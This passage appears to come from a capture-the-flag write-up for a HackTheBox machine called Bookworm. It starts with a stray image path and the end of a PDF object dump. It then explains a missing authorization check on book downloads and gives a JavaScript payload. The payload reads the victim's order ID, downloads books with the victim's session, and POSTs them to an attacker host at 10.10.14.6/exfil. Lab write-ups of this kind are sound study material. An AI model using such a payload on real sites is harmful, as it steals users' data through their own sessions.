     /Type /Catalog
    /Pages 1 0 R
    /OpenAction [3 0 R /FitH null]
    /PageLayout /OneColumn
    >>
    endobj
    xref
    0 8
    0000000000 65535 f
    0000000272 00000 n
    0000000455 00000 n
    0000000009 00000 n
    0000000087 00000 n
    0000000359 00000 n
    0000000559 00000 n
    0000000668 00000 n
    trailer
    <<
    /Size 8
    /Root 7 0 R
    /Info 6 0 R
    >>
    startxref
    771
    %%EOF


#### Download Multiple

I'm curious to see what comes back when I try to download multiple books
at the same time. It seems unlikely that it would be a single PDF, and
more likely some kind of archive.

I wasted a ton of time trying to write JavaScript that would check each
order page for a "Download everything" link and visit it. I'm sure it's
possible, but the JS was getting complex and very difficult to
troubleshoot blindly and over 4-5 minute waits.

Eventually I decided to try seeing how tied to the current user to
download is. The order ID in the URL must match the current user, or
nothing comes back. But it doesn't seem that that books are checked to
see if they are in the current order. That means I can just grab an
order ID from the profile and then download any books I want:



    fetch('/profile', {credentials: 'include'})
    .then((resp) => resp.text())
    .then((resptext) => {
      order_id = resptext.match(/\/order\/(\d+)/);
      fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=2", {credentials: 'include'})
      .then((resp2) => resp2.blob())
      .then((data) => {
        fetch("http://10.10.14.6/exfil", { 
          method: "POST",
          mode: 'no-cors',
          body: data
        });
      });
    });
